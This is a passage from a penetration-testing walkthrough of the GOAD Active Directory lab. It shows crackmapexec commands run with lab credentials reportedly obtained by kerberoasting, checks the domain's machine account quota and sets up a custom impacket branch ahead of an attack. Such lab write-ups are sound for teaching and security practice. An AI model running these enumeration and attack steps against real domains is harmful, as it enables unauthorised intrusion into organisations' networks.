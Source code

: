 - As a huge fan of linux and exegol we will try the linux way :)

### Check if we can add computer

For this attack i will use `north/jon.snow:iknownothing` account as we previously get it with kerberoasting in the part3.

Let's find a cme module to check the machine account quota

```shell
cme ldap -L
```

![cme_module_listing.png](/assets/blog/GOAD/cme_module_listing.png)

```shell
cme ldap winterfell.north.sevenkingdoms.local -u jon.snow -p iknownothing -d north.sevenkingdoms.local -M MAQ
```

![machineaccountquota.png](/assets/blog/GOAD/machineaccountquota.png)

### Prepare Impacket

Before exploiting with impacket let's prepare our impacket version with the pull request we want.

- Clone the impacket repo

```shell
cd /opt/tools
git clone https://github.com/SecureAuthCorp/impacket myimpacket
```

- Create our branch

```shell
cd myimpacket
git checkout -b mydev
```

- Create a venv to don't interfer with the host environment and install the repository we just checkout

```shell
python3 -m virtualenv myimpacket
source myimpacket/bin/activate
python3 -m pip install .
```
